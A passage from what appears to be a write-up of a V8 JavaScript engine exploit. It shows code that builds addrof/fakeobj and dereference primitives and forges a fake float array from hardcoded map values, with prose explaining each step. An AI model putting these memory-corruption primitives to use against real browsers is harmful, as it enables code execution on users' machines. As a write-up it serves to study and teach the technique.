 ```javascript
	var raw = w(store, h2f(addr, 0));
	return store[0];
}
function deref(obj, off) {
	var raw = dr({a: 1.1, b: obj});
	return f2h(raw, off);
}
```
Armed with the idea of the vulnerability, it was not hard to write an addrof and fakeobj function, which are functions to obtain a 32 bit pointer of an object, and to create a fake object from a 32 bit address, respectively. Additionally, I made a derefence pointer+4 function, which is crucial as seen later.

```javascript
var fakearr_data = [h2f(0x08241909, 0x080406e9), 0.1, 0.2]; // 0x08241909 and 0x080406e9 are two static values at the start of every floating pointer array
var loc = deref(fakearr_data, 0);
console.log(loc.toString(16));
fakearr_data[1] = h2f(loc + 0x18, 0x80000); // 0x80000 is right shifted once; 0x40000 element array
fakearr_data[2] = h2f(0x08040a3d, 0x80000); // 0x08040a3d is header of contents of an array
```

In the first step of the exploitation, I created an array _fakearr_data_ of floating point numbers that would be interpreted as an array object in memory. Here, pointer compression in fact made life easy as I can hardcode memory addresses to maps of arrays as they were static offsets.

![](/images/4/fakearr.png)
*Illustration of fake array*
